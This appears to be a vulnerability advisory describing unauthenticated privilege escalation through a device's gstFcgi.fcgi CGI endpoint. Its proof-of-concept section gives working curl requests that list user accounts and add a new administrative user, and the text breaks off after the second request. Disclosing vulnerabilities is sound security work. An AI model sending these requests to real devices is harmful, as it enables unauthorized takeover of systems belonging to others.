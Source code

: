 This vulnerability enables unauthorized **privilege escalation** and **complete device takeover**.

---

## Affected Components
- **Access Control:** Direct access to sensitive administrative endpoints without authentication.  
- **User Management:** Ability to add, modify, and delete user accounts without authentication.  
- **Privilege Escalation:** Attackers can gain administrative control over the system.  

---

## Attack Vectors
| Method | Description |
|--------|-------------|
| **Access Method** | Remote, over HTTP |
| **Authentication Requirement** | None (unauthenticated) |
| **Exploit Complexity** | Low (simple HTTP requests) |

---

## Proof of Concept (PoC)
### 1. **List User Accounts**
An attacker can list all user accounts directly using the following unauthenticated POST request:

```bash
curl '{target}/cgi-bin/gstFcgi.fcgi' -X POST --data-raw '{"LIST":"USERS"}'
```
Example Response:

```json
{
  "USERS": [
    {"USER":"admin", "SETUP":1, "ADMIN":1, "TUNER1":1, "TUNER2":1, "AUDIO":1}
  ]
}
```
### 2. **Add a New Administrative User**

Attackers can create a new administrative user using the following POST request:

```bash
curl '{target}/cgi-bin/gstFcgi.fcgi' -X POST --data-raw '{
  "USER":"admin",
  "ADD_USER":{
    "USER":"tester",
    "PASS":"tester",
    "SETUP":1,
    "ADMIN":1,
    "TUNER1":1,
    "TUNER2":1,
    "AUDIO":1
  }
}'
```
Example Response:
